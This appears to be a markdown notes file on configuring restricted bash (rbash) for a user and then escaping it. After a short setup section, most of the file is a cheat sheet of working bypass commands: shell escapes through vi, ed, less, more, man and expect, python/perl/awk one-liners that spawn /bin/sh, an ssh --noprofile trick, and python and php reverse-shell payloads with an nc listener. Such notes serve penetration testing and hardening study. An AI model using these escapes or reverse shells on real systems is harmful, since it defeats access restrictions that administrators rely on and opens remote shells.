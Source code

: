 # rbash

restired bash

## setup

### enabling for a user

    cd /bin
    ln -s bash rbash

    useradd -m ruser
    usermod --shell /bin/rbash ruser

    grep -rni ruser /etc/passwd

### start directly

    bash -r

    cd /etc/
    -rbash: cd: restricted

## bypass rbash

### editors

#### vi

    :set shell=/bin/bash
    :shell
    cd /etc

#### ed

    ed
    !'/bin/sh'
    cd /etc
    exit
    q

### one liner

#### python

    python -c "import os; os.system('/bin/sh')"
    
#### perl

    perl -e "system('/bin/sh')"

#### awk

    awk 'begin {system("/bin/sh")}'
    cd /etc; pwd

### reverse shell

    # listen
    nc -lvp 13666

#### python

    python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("127.0.0.1", 13666));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#### php

    php -r '$sock=fsockopen("127.0.0.1", 13666);exec("/bin/sh -i <&3 >&3 2>&3");'

### system binaries

#### more

    more long-file.txt
    !sh

#### less

    less file.txt
    !sh

#### man

    man man
    !sh

### expect

    expect
    spawn sh
    cd /etc

### ssh

    ssh ruser@127.0.0.1  -t "bash --noprofile"
    cd /etc

## interactive shell

### su: must be run from a terminal

    echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
    python /tmp/asdf.py
